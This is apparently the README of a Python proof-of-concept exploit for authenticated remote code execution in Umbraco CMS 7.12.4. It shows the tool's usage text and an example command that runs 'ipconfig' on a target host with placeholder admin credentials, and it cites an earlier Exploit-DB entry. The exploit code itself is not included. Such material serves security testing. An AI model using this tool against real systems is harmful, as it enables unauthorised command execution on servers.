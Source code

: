 # Umbraco RCE exploit / PoC

> Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

## Usage

```
$ python exploit.py -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD

Umbraco authenticated RCE

optional arguments:
  -h, --help                show this help message and exit
  -u USER, --user USER      username / email
  -p PASS, --password PASS  password
  -i URL, --host URL        root URL
  -c CMD, --command CMD     command
```

Example:

```
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
```

## Reference

This is a better re-write of [EDB-ID-46153](https://www.exploit-db.com/exploits/46153) and with stdout display.

Tested with python 3.8.

